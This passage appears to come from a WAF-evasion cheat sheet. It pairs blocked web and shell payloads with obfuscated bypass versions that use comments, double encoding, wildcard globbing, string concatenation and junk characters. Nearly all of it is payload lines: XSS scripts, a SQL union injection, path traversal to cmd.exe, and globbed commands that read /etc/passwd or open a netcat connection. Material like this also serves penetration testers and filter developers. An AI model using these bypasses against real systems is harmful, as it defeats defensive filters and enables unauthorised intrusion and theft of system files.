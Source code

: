 **6. Using Comments**

* Comments obfuscate standard payload vectors.
* Different payloads have different ways of obfuscation.

**Blocked**: `<script>alert()</script>`  
**Bypassed**: `<!--><script>alert/**/()/**/</script>`

**Blocked**: `/?id=1+union+select+1,2,3--`  
**Bypassed**: `/?id=1+un/**/ion+sel/**/ect+1,2,3--`

**7. Double Encoding**

* Often WAF filters tend to encode characters to prevent attacks.
* However poorly developed filters \(no recursion filters\) can be bypassed with double encoding.

**Standard**: `http://victim/cgi/../../winnt/system32/cmd.exe?/c+dir+c:\`  
**Obfuscated**: `http://victim/cgi/%252E%252E%252F%252E%252E%252Fwinnt/system32/cmd.exe?/c+dir+c:\`

**Standard**: `<script>alert()</script>`  
**Obfuscated**: `%253Cscript%253Ealert()%253C%252Fscript%253E`

**8. Wildcard Obfuscation**

* Globbing patterns are used by various command-line utilities to work with multiple files.
* We can tweak them to execute system commands.
* Specific to remote code execution vulnerabilities on linux systems.

**Standard**: `/bin/cat /etc/passwd`  
**Obfuscated**: `/???/??t /???/??ss??`  
Used chars: `/ ? t s`

**Standard**: `/bin/nc 127.0.0.1 1337`  
**Obfuscated**: `/???/n? 2130706433 1337`  
Used chars: `/ ? n [0-9]`

**9. Dynamic Payload Generation**

* Different programming languages have different syntaxes and patterns for concatenation.
* This allows us to effectively generate payloads that can bypass many filters and rules.

**Standard**: `<script>alert()</script>`  
**Obfuscated**: `<script>eval('al'+'er'+'t()')</script>`

**Standard**: `/bin/cat /etc/passwd`  
**Obfuscated**: `/bi'n'''/c''at' /e'tc'/pa''ss'wd`

> Bash allows path concatenation for execution.

**Standard**: `<iframe/onload='this["src"]="javascript:alert()"';>`  
**Obfuscated**: `<iframe/onload='this["src"]="jav"+"as&Tab;cr"+"ipt:al"+"er"+"t()"';>`

**9. Junk Characters**

* Normal payloads get filtered out easily.
* Adding some junk chars helps avoid detection \(specific cases only\).
* They often help in confusing regex based firewalls.

**Standard**: `<script>alert()</script>`  
**Obfuscated**: `<script>+-+-1-+-+alert(1)</script>`
